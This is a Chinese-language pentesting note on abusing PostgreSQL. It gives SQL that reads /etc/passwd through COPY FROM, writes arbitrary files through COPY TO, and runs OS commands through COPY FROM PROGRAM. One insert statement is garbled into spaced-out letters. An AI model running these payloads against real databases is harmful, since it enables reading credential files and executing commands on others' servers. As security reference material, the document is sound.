

---
tags:
  - database
create_time: 2024-10-17 15:06
modified_time: 2024-10-17 15:06
status: complete
---
## 0x01 postgresql 特殊函数

- PostgreSQL 8.1 以后提供了一组现成的文件操作函数 pg_logdir_ls ()、pg_ls_dir ()、pg_file_rename ()、pg_file_write ()、 pg_read_file ()、pg_length_file ()
  限制条件：
  		服务将特殊函数的权限限制在了./postgresql/data 下面。

## 0x02 使用命令读目录


## 0x03 尝试绕过方式读取文件

```postgresql
（drop table wooyun;）
CREATE TABLE wooyun(t TEXT);
COPY wooyun FROM '/etc/passwd';
SELECT * FROM wooyun limit 10 offset 0;
```



## 0x04 绕过方式写文件

```postgresql
DROP TABLE wooyun;
CREATE TABLE wooyun (t TEXT);
I N S E R T I N T O w o o y u n ( t ) V A L U E S ( ' h e l l o
wooyun');
COPY wooyun(t) TO '/tmp/wooyun';
```


## 0x05 命令执行

- 在 postgresql 的 9.3 到 11 版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。

```postgresql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

